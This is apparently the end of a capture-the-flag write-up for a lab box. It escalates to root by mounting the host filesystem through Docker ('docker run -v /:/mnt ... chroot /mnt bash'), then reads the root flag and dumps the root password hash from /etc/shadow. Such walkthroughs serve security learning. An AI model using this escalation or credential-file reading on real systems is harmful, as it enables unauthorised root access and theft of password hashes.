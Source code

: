 Let's find what images are available:

```
$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        10 months ago       64.2MB
```

So let's spawn a shell through a shared volume:

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@ae6411b77a1e:/# cd
cd
root@ae6411b77a1e:~# cat root.txt
cat root.txt
44f998eb5112e763883b6ae36279a432
root@ae6411b77a1e:~# cat /etc/shadow | grep root
cat /etc/shadow | grep root
root:$6$bWa.Lbnz$k0KbMyNbdOQRcY5pWuHM2bfkF5ek8c0CTNsi00qFHmp04NqcefCsIXZTdJgqToRar5zcEk5k8KFhbIomGB3Kb/:18178:0:99999:7:::
```

[ht]:https://book.hacktricks.xyz/
[nmap]:https://nmap.org/
[gtfo]:https://gtfobins.github.io/
[ffuf]:https://github.com/ffuf/ffuf
